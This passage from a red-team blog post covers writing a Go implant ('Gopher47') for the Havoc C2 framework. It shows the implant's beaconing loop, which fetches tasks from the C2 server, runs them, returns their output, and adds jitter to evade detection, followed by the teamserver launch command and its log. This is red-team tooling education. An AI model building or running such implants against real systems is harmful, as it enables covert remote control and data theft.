 You can see this part of the `main()` function below.
```go
// [trim...]
command := ""
out := ""
r := 1
// Begin execution
for {
	command = checkIn("", "gettask")
	if (len(command) > 4) { // the first 4 bytes are just the size header
		out = RunCommand(utils.Strip(command[4:]))
		if utils.Strip(strings.Fields(command[4:])[0]) == "download"{
			// the `download` command functions slightly different compared
			// to the rest
			checkIn(utils.JsonEscape(out), "download") 
		} else {
			checkIn(utils.JsonEscape(out), "commandoutput")
		}
	}
	// we want to vary the amount of time in between check-ins
	// otherwise if it's too regular, that's a little *sus*
	r = rand.Intn(jitterRange)
	time.Sleep((time.Duration(sleepTime) * time.Second) + (time.Duration(r) * time.Microsecond))
// [...trim...]
```

The next step after this is to write a Python handler for the Havoc teamserver so that it understands what the Gopher47 implant is actually telling it. For the purposes of this blog post, I'll omit the specific details about that here, but you can read more about that in the below resources:
- [CodeX's 3rd Party Guide](https://codex-7.gitbook.io/codexs-terminal-window/red-team/red-team-dev/extending-havoc-c2/third-party-agents/3-writing-the-agent-handler)
- [The Gopher47 Handler](https://github.com/An00bRektn/gopher47/blob/main/handler.py)
- [The SharpAgent Handler](https://github.com/susMdT/SharpAgent/blob/main/handler.py)

### Testing It!
This isn't meant to be a "How to Use Havoc", but might as well have pictures after a block of just code. Since we're writing in Go, it's very easy to have the same code work for a Windows executable and a Linux executable. We can start the teamserver with the below command:
```shell
kali@transistor:~/go/src/github.com/An00bRektn/gopher47$ cd /opt/Havoc/Teamserver; sudo ./teamserver server --profile ./profiles/havoc.yaotl -v --debug
              _______           _______  _______
    │\     /│(  ___  )│\     /│(  ___  )(  ____ \
    │ )   ( ││ (   ) ││ )   ( ││ (   ) ││ (    \/
    │ (___) ││ (___) ││ │   │ ││ │   │ ││ │
    │  ___  ││  ___  │( (   ) )│ │   │ ││ │
    │ (   ) ││ (   ) │ \ \_/ / │ │   │ ││ │
    │ )   ( ││ )   ( │  \   /  │ (___) ││ (____/\
    │/     \││/     \│   \_/   (_______)(_______/

         pwn and elevate until it's done

[21:48:50] [DBUG] [cmd.serverFunc:70]: Debug mode enabled
[21:48:50] [INFO] Havoc Framework [Version: 0.4.1] [CodeName: The Fool]
[21:48:50] [INFO] Havoc profile: ./profiles/havoc.yaotl
[21:48:50] [INFO] Build:
 - Compiler x64 : data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc
 - Compiler x86 : /usr/bin/i686-w64-mingw32-gcc
 - Nasm         : /usr/bin/nasm
[21:48:50] [INFO] Time: 14/01/2023 21:48:50
[21:48:50] [INFO] Teamserver logs saved under: data/loot/14.01.2023_21:48:50
[21:48:50] [DBUG] [teamserver.(*Teamserver).Start:47]: Starting teamserver...
[21:48:50] [INFO] Starting Teamserver on ws://0.0.0.0:40056
[21:48:50] [INFO] Starting Teamserver service handler on ws://0.0.0.0:40056/service-endpoint
```
